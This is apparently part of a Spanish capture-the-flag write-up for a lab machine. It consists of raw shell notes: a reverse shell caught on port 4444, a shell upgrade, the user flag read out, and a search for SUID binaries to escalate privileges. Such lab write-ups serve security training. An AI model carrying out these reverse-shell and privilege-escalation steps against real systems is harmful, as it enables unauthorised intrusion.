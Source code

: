 
cd
bash: line 9: cd: /home/unifi: No such file or directory
cd /home/unifi
bash: line 10: cd: /home/unifi: No such file or directory
cd /home/
ls
michael
cd michael
ls
user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127 <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<


CONSIGUIENDO SHELL
------------------
$ script /dev/null -c bash

**ESCALADA PRIVILEGIOS**
================================================================================================================================================================

1. SUDO
-------
listening on [any] 4444 ...
connect to [10.10.15.5] from (UNKNOWN) [10.129.153.25] 37402
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ sudo
sudo
bash: sudo: command not found
unifi@unified:/usr/lib/unifi$ 



2. SET UID BINARIES
---------------------

unifi@unified:/usr/lib/unifi$ find / -perm /4000 2>/dev/null > sudis.txt

unifi@unified:/usr/lib/unifi$ cat sudis.txt
cat sudis.txt
-rwsr-xr-x 1 root root 43088 Sep 16  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 26696 Sep 16  2020 /bin/umount
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
unifi@unified:/usr/lib/unifi$  




